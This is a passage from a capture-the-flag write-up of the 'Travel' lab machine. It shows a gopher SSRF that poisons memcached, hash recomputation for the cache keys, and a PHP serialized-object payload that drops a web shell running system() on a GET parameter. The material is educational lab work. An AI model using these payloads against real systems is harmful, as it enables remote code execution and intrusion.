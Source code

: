 ```bash
curl -s http://blog.travel.htb/awesome-rss/\?custom_feed_url=gopher://2130706433:11211/_%0d%0aset%20SpyD3r%204%200%2014%0d%0aexploitEmp5r0R%0d%0a
```
![Pasted image 20250228105938.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228105938.png?raw=true)
- With `debug` I can see that it actually worked
![worked](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExNjVrYjEwM2p0NmV3bThudmZmbDNuejc4Mmt4czN1MGhydHo3MHMzbCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/o75ajIFH0QnQC3nCeD/giphy.gif)
![Pasted image 20250228110046.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228110046.png?raw=true)
- As this is a MD5 generated hash, I could also recreate it. This cache stores md5 hash of `customfeed.xml` with including the whole URL
```bash
echo -n "http://www.travel.htb/newsfeed/customfeed.xml" | md5sum
```
- The `Memcached` get's md5 sum of something with using the key `spc`. I learnt about this while googling `memcache`. I could see the whole source code on the internet as `memcache` is opensource.
![Pasted image 20250228112509.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228112509.png?raw=true)
- Now lets make another with the new found key `spc`
```bash
echo -n "3903a76d1e6fef0d76e973a0561cbfc0:spc" | md5sum
```
![Pasted image 20250228112555.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228112555.png?raw=true)
- I can see this hash value matches to the value from debug
![Pasted image 20250228112654.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228112654.png?raw=true)
 
## Exploitation

- I can generate the serialized object by tweaking `template.php` code a little by injecting a malicious payload

### Crafting the payload
```php
 <?php
class TemplateHelper
{
public $file;
public $data;
public function __construct(string $file, string $data)
{
$this->init($file, $data);
}
private function init(string $file, string $data)
{
$this->file = $file;
$this->data = $data;
file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
}
}
$pwn = new TemplateHelper("shell.php", "<?php system(\$_GET[emperor]); ?>");
echo serialize($pwn);
?>

```
- This code will generate a serialized object for the malicious payload which on using will be saved as `shell.php` within the `logs` folder.
- Actually on running the php code locally I can watch the process. But first let me create a directory called `logs`
```php
php exploit.php
```
![Pasted image 20250228114813.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228114813.png?raw=true)
- Now I can see the payload within the `logs` folder that I created